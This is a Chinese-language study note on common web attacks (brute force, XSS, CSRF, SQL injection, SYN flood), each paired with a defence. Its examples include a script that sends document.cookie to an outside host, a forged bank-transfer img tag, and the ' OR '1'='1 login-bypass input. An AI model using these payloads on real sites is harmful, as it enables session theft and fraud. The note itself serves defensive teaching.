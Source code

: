 ## 攻击技术

### 暴力破解
连续性尝试+字典
一个有效的字典可以大大的提高暴力破解的效率。for example：常用账号密码弱口令
暴力破解防范措施：
1、是否要求用户设置了复杂的密码
2、是否每次尝试登陆都需要安全的验证码
3、是否对用户尝试登陆、试错的行为进行限制（例如，当天密码输入错误超过8次将该账号锁定）
4、双因素认证
关于安全的验证码设计：
验证码必须由后端生成，后端将验证码以图片的形式返回给前端，并把验证码文本放在缓存（例如redis缓存）当中，
前端请求后端，带着表单的同时带着用户填写的验证码与缓存的验证码做比对。

### xss
攻击原理
例如有一个论坛网站，攻击者可以在上面发布以下内容：
<script>location.href="//domain.com/?c=" + document.cookie</script>
之后该内容可能会被渲染成以下形式：
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的
Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个
Cookie 登录被攻击者的账号了。
危害
1、窃取用户的 Cookie
2、伪造虚假的输入表单骗取个人信息
3、显示伪造的文章或者图片
防范：过滤特殊字符
例如将 < 转义为 &lt;，将 > 转义为 &gt;，从而避免 HTML 和 Javascript 代码的运行。
富文本编辑器允许用户输入 HTML 代码，就不能简单地将 < 等字符进行过滤了，极大地提高了
XSS 攻击的可能性。
富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，
从而不允许有攻击性的 HTML 代码的输入。

### csrf
攻击原理
假如一家银行用以执行转账操作的 URL 地址如下：
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
那么，一个恶意攻击者可以在另一个网站上放置如下代码：
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失1000美元。

防范：添加校验Token
在访问敏感数据请求时，要求用户浏览器提供不保存在Cookie中，并且攻击者无法伪造
的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

### sql注入
概念
服务器上的数据库运行非法的SQL语句，主要通过拼接来完成。
攻击原理
例如一个网站登录验证的 SQL 查询代码为：
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
如果填入以下内容：
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";
那么 SQL 查询字符串为：
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
此时无需验证通过就能执行以下查询：
strSQL = "SELECT * FROM users;"
防范措施：
使用orm框架，例如mybatis
'#{}'方式能够很大程度防止sql注入。${}方式无法防止Sql注入。${}方式一般用于传入数据库对象，例如传入表名.
MyBatis是如何做到SQL预编译的呢？其实在框架底层，是JDBC中的PreparedStatement类在起作用，
PreparedStatement是我们很熟悉的Statement的子类，它的对象包含了编译好的SQL语句。这种
“准备好”的方式不仅能提高安全性，而且在多次执行同一个SQL时，能够提高效率。原因是SQL已编
译好，再次执行时无需再编译。
for example:
select * from student where student_name = #{name}
预编译后,会动态解析成一个参数标记符?：
select * from student where student_name = ?
而使用${}在动态解析时候，会传入参数字符串
select * from student where student_name = 'lyrics'
'#{}'这种取值是编译好SQL语句再取值---->先编译后取值
'${}'这种是取值以后再去编译SQL语句---->先取值后编译

### 拒绝服务攻击
在三次握手过程中,Server发送SYN-ACK之后，收到Client的ACK之前的TCP连接
称为半连接(half-open connect),此时Server处于SYN_RCVD状态,当收到ACK后,
Server转入ESTABLISHED状态。SYN攻击就是Client在短时间内伪造大量不存在的IP地址,
并向Server不断地发送SYN包,Server回复确认包,并等待Client的确认,由于源地址是
不存在的,因此,Server需要不断重发直至超时,这些伪造的SYN包将产时间占用未连接
队列,导致正常的SYN请求因为队列满而被丢弃,从而引起网络堵塞甚至系统瘫痪。SYN攻击时
一种典型的DDoS攻击,检测SYN攻击的方式非常简单,即当Server上有大量半连接状态
且源IP地址是随机的,则可以断定遭到SYN攻击了,使用如下命令可以让之现行:
netstat -nap | grep SYN_RECV